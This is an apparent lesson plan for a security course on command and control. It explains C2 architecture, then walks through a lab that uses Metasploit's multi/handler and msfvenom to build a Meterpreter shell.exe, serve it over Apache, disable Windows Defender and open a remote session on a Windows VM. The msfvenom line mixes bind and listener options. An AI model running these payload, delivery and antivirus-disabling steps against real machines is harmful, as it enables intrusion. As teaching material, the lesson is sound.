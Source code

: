 ## 1.3 Lesson Plan: Command and Control

#### Overview

 In today's lesson, we start by learning what command and control (C2) is and how it's used by malicious actors in order to communicate with computers they control or have compromised.

#### Class Objectives

By the end of class, students will be able to:

- Explain what C2 is and how it fits in an offensive security operation

- Use Metasploit to generate a malicious executable with `msfvenom` and establish a connection back to their C2 server

- Perform basic reconnassiance with Meterpreter

### Lab Environment

Students will use their Kali virtual machine to act as the C2 "server" and run their generated malicious executable on the Windows 10 virtual machine. 

### Slideshow and Timetracker

The lesson slides are available on Google Drive here: [1.2 Slides](https://docs.google.com/presentation/d/1AUuAjxX7_oIm5TOJHHXP6qROy8kmxuhMzVqyov3RVNs/edit?usp=sharing)

### 01. Instructor Do: C2 Architecture and the Metasploit Framework
 
Welcome students back to class and explain that today we will be learning what a command and control framework is and how it's used in an offensive operation. We will also introduce students to their first C2 framework, Metasploit.

`Note:` Metasploit is considered both an exploitation and Command and Control framework, where most C2 platforms today are just C2 frameworks (No exploitation).

Students should have an understanding of the cyber 'kill chain' in which today we will explore how the command and control architecture assists throughout the process. 

When an attacker compromises a computer, they directly control that machine. Throughout the cyber kill chain, an attacker will compromise several machines, which means several machines are then communicating with that single attacking machine. This is know as 'command and control'.

In a traditional C2 architecture, multiple compromised machines, also known as "zombies", communicate with a single C2 'framework', hosted on a machine. 

- C2 architecture has evolved signficiantly over the past decade so that the true C2 server is concealed through various methods, instead of a direct Server -> Host architecture.

- In order to communicate back to the C2 server, the compromised machine must run an 'agent', which typically is a malicious executable or code that runs on the target machine.

- Most C2 frameworks support multiple different ways of connectivity, also known as "channels".

A compromised host can communicate using either a single channel or several channels over various protocols. Some of these protocols include

- DNS
- HTTP
- HTTPS
- TCP (Arbritary port)
- SMB

The protocol being used is dependent on the target's network firewall egress rules. Typically, most egress rules allow HTTP/S and DNS outbound, which is why those channels are commonly used for C2 communication.

While under the control of a C2 server, a zombie will periodically communicate back with the C2 server to 'check-in' for any updates. This is commonly referred to as a 'heartbeat'. Whenever a compromised computer checks in with the C2 server, it will do two things.

1) Let the server know the malicious process is still running
2) Ask for any instructions 

When the compromised computer asks for any instructions, it's asking if any commands need to be executed. 

For example, if the operator of the C2 server issues a command, `pwd`, to the compromised machine, that command is only run when the compromised machine checks-in with the C2 server. This interval is commonly able to be changed and is depedant on the C2 framework being used.

The C2 framework we will be using for this class is Metasploit. Metasploit is both a C2 and exploit framework, supporting a variety of different payloads. 

- Metasploit will be heavily used during this module, however we are simply introducing them to Meterpreter to demonstrate how C2 works.

- We will cover the capabilities of the 'Meterpreter' shell later in the course.

### 02. Student Do: Command and Control Framework research

In this activity, students will research various C2 frameworks and document similiarities and differences between them

Share the following link with students: https://www.thec2matrix.com/matrix


### 03. Instructor Do: Metasploit Framework and msfvenom

Remind students that as shown in their research activity, there are many choices for C2. In this class, however, we will be focusing on using Metasploit.

- Metasploit is a tool that has been around for quite a bit and owned by the company Rapid 7. 

- There's a free version, which is what comes installed on Kali by default, and a professional version, which expands on it's exploitation and C2 capabilities

Metasploit has an additional component, msfvenom, which allows the operator to craft the malicious agents and payloads that will be used to communicate back with Metasploit.

### 04. Instructor Do: Metasploit and msfvenom demonstration

1. Login to the Kali machine with credentials `root/toor`

2. Click on the Metasploit icon on the taskbar

Explain to students that unlike most C2 frameworks, Metasploit is purely commandline based and has no web application or GUI. 

3. Once metasploit is started, type `use exploit/multi/handler` 

Explain to students that in order for the payload/agent we're going to craft to communicate back to Metasploit, we need to start something called a 'listener' that "listens" for the payload to talk back.

- Without starting a listener, the C2 server will not be able to communicate with any agents.

- Metasploit works through its use of "modules". In this case, we're using the `exploit/multi/handler` module which is Metasploit's listener module.

4. Type `ip addr` to get the IP address of the Kali machine, then type `set LHOST <kali ip address>`

5. After the LHOST (listener host) is set, set the LPORT by typing `set LPORT 4444`

![](/Images/01.Metasploitoptions.png)

6. Once LPORT and LHOST is set, start the listener by typing `run -j`. The `-j` option sets it to run in background.

7. Next, generate the agent/payload by typing `msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe` 

![](/Images/02.Metasploitmsfvenom.png)

8. Clear out the /var/www/html/ folder: `rm /var/www/html/*`

9. Move the payload to /var/www/html: `mv shell.exe /var/www/html/`

10. Start the apache web service by typing `service apache2 start`

![](/Images/03.apache.png)

11. Now move from your Kali VM to your Windows VM. Open an web browser and browse to your Kali's IP address. Download the `shell.exe` payload and execute it.

- Note: Windows Defender should be turned off. If not turned off, open PowerShell as administrator and run `Set-MPPreference -DisableRealTimeMonitoring $true` 

![](/Images/04.Windows.png)

12. Back in Kali, you should see a message "Meterpreter Session 1 opened". To interact with this session, type `sessions -i 1`

![](/Images/05.Session.png)

13. You now have a shell into the Windows machine, with Metasploit operating as the C2 server. Demonstrate commands such as `ls` and `pwd` to show you're on the Windows machine.

![](/Images/06.Command.png)

We will explore the capabilities of the Meterpreter shell later in the course. 

### 05. Student Do: Metasploit and MSFVenom

In this activity, students will follow in the instructor's footpath and use Metasploit and MSFvenom to open a shell on their Windows VM.


